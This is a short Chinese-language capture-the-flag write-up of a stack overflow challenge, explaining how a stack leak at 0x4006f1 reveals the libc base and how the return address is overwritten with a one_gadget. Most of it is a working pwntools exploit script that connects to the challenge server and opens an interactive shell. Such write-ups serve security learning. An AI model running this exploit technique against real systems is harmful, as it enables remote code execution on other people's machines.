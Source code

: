 测试漏洞为栈溢出

这题开始以为是BROP，结果爆了返回地址和rdi_ret和rsi_ret的地址

没有爆出来`puts`或者`write`的地址，寻思着他难道用的是`printf`

发现在`0x4006f1`的地址可以输出buf栈的内容，其中还有有个libc的地址。。。见鬼

这题就没啥了，libc和本地Ubuntu16.04的库一样通过栈里面的地址也可以确认

又知道libc的基地址，直接覆盖ret为one_gadget

```python
from pwn import *
#context.log_level = "debug"
main = 0x4006ce
__libc_csu_init = 0x400720
pop_r15_ret=0x40077a
libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")

#0x6f1
p = remote("34.92.37.22",10000)
print p.recvuntil("pwn!\n")
payload = 'A'*0x28+p64(0x4006f1)
p.sendline(payload)
p.recv(0xd0)
libc.address=u64(p.recv(6)+'\x00\x00')-0x5f1168
success("libc.address-->"+hex(libc.address))
payload = "A"*0x28+p64(libc.address+0x45216)
p.sendline(payload)
p.interactive()
```

![](https://i.loli.net/2019/04/29/5cc624da80d38.png)

